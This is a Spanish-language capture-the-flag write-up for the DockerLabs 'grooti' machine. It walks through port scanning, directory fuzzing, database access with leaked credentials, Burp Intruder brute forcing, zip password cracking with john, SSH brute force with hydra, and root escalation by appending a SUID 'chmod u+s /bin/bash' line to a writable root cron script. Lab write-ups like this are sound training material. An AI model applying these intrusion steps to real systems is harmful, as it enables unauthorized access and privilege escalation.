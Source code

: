 ## LEVANTAMOS LA MÁQUINA

Vamos a la página de 'Dockerlabs' y buscamos la máquina grooti, vamos al enlace y la descargamos:
```bash
https://dockerlabs.es/
https://mega.nz/file/OEUQEJjC#Ckg_Wxq7MqLHTfpjXgXBAJuIxla3qFqWv42Xw_qTQYA
```
![Nmap Scan](/images/grooti/grooti1.png)



Descarhamos el zip en nuestra máquina Linux, descomprimimos con:
```bash
unzip grooti.zip
```
y ejecutamos:

```bash
sudo bash auto_deploy.sh grooti.tar
```
![Nmap Scan](images/grooti/grroti2.png)

## FASE ENUMERACIÓN

Comenzamos con un scaneo de los puertos que tiene abiertos y los servicios que corren por ellos, así como sus versiones por si hay alguna vulnerabilidad asociada:

```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2
```
![Nmap Scan](images/grooti/grooti3.png)
![Nmap Scan](images/grooti/grooti4.png)

Vemos:

  -Puerto 22 con SSH versión 9.6p1 no vulnerable
  -Puerto 80 HTTP
  -Puerto 3306 mysql

Dado que no tenemos credenciales vamos a centrarno en el puerto 80 http, vamos a lanzar un 'whatweb' para saber que está utilizando la página:

```bash
 whatweb 172.17.0.2
```

![Nmap Scan](images/grooti/grooti5.png)


Nada interesante, salvo que utiliza apache, llegados a este punto toca mirar el código fuente por si hay algo interesante:

Abrimos la página web:
![Nmap Scan](images/grooti/grooti6.png)

con Ctrl+u abrimos el código fuente y vemos dos cosas interesantes:

![Nmap Scan](images/grooti/grooti7.png)

1- que un usuario rocket ha entrado en la base de datos, recordad que el puerto 3306 corre con mysql


2- tres rutas:"imagenes","documentos","archives"



No obstante vamos a hacer un fuzzing para ver que más rutas podemos encontrar:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://172.17.0.2/' -x html,php,txt,bak,env,cgi,
```
![Nmap Scan](images/grooti/grooti8.png)

Vemos varias rutas con cosas interesante:
```
http://172.17.0.2/imagenes/ ----->http://172.17.0.2/imagenes/README.txt
```

Con un README.txt muy interesante:

![Nmap Scan](images/grooti/grooti9.png)

Ya tenemos un password: password1

```
http://172.17.0.2/archives/
```

Sin nada interesante


```
http://172.17.0.2/secret/
```
Con un listado de posibles usuarios:

![Nmap Scan](images/grooti/grooti10.png)

## INTRUSION EN BASE DE DATOS

Con todas las pistas vamos a intentar conectarnos a la base de datos con el usuario rocket y el password password1

```bash
mysql -h 172.17.0.2 -u rocket -ppassword1
```
Nos va a da un error y para corregirlo añadiremos --skip-ssl  quedando:
```bash
mysql -h 172.17.0.2 -u rocket -ppassword1 --skip-ssl
```
![Nmap Scan](images/grooti/grooti11.png)

Ahora que estamos conectados vamos a veer que bases de datos hay:
```
show databases;
```
encontramos `files_secret` vamos a utilizar esta base de datos

```bash
use files_secret;
```
listamos las tablas
```bash
show tables;
```
y mostramos todo lo que contiene la tabla `rutas`
```
select * from rutas;
```
![Nmap Scan](images/grooti/grooti12.png)

## FASE INTRUSIÓN
Encontrada una nueva ruta en la base de datos nos dirigimos a ella:

```
http://172.17.0.2/unprivate/secret/
```

vemos un panel donde podemos poner una frease y un numero del 1 al 100:

![Nmap Scan](images/grooti/grooti13.png)

Despues de mirar el código fuente, intentar inyectar cosas en el panel y no viendo nada raro, vamos a pasar la petición por burpsuite, dado que lo único que hace es descargar un archivo con el nombre password1.txt
el 1 varía y es el número que ponemos del 1 al 100. 

Capturamos la petición y vamos a lanzar un ataque de fuerza bruta a los numeros que introducimos


1- mandamos la petición al intruder:

![Nmap Scan](images/grooti/grooti14.png)

2-Seleccionamos dónde poner nuestro payload, concretamente en el número que metemos en el panael y le damos a "add"

![Nmap Scan](images/grooti/grooti15.png)

3-Cambiamos el payload type a Numers y from 1 to 100 para indicar que queremos solo numeros del 1 al 100

![Nmap Scan](images/grooti/grooti16.png)

y lanzamos el ataque con start attack

Cuando termina el ataque vamos a ordenar por el tamaño:

![Nmap Scan](images/grooti/grooti17.png)

Vemos que al poner el número 16 se dispara el tamaño de la respuesta y si miramos en ese número la respuesta vemos:

![Nmap Scan](images/grooti/grooti18.png)


Pues vamos a lanzar una petición con el número 16 y vemos que pasa, y nos descarga un zip protegido por cntraseña, vamos a romperla con 
john, lo primero usamos:

```bash
zip2john password16.zip > hash.txt
```
para generar el hash a romper del zip

y ahora intentamos romperlo con john:
```bash
 john --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt
```
y rompe el hash:
![Nmap Scan](images/grooti/grooti19.png)

hacemos un unzip, metemos el password y nos descarga un txt:
![Nmap Scan](images/grooti/grooti20.png)

pues parece una lista de passwords, con esto vamos a probar fuerzabruta por ssh, antes hacemos una lista de users, os acordais de la página "http://172.17.0.2/secret/"
ahí teniamos tres usuarios: 
```
grooti
rocket
naia
```

vamos a meterlo en un archivo con el nombre users.txt y lanzamos un ataque con hidra, con esos usuarios y el archivo con los passwords que sacamos del zip:

![Nmap Scan](images/grooti/grooti21.png)

Nos conectamos por SSH como el usuario grooti a la IP victima:
```bash
ssh grooti@172.17.02
```
y cuando nos pide el password metemos
```
YoSoYgRoOt
```

Ya estamos dentro

##ESCALADA DE PRIVILEGIOS

Miro si estoy en algún grupo privilegiado con "id" y nada, si tengo algun privilegio sudo con "sudo -l" y nada, busco SUID y tampoco nada, listo usuarios y estamos root y yo xD
![Nmap Scan](images/grooti/grooti22.png)

Voy a detectar si hay algún proceso, copio en la victima en un archivo con nano este script:
```bash
https://github.com/lavafuego/herramientas/blob/main/detectar%20procesos%20en%20bash/procesos.sh
```
doy permisos de ejecución con chmod +x <nombre del archivo>
lo ejecuto:
![Nmap Scan](images/grooti/grooti23.png)

Veo que se ejecuta este proceso:
```
 /tmp/malicious.sh
```
miro los permisos que tengo sobre él, propietario root y puedo modificarlo
le añado una linea para modificar los permisos de la /bin/bash:
```bash
echo "chmod u+s /bin/bash" >>/tmp/malicious.sh
```
y espero a que vuelva a ejecutarse el proceso, cuando se ha ejecutado cambia los permisos de la /bin/bash y si lo ejecuto con la flag -p me convierto en root:
```bash
/bin/bash -p
```

![Nmap Scan](images/grooti/grooti24.png)


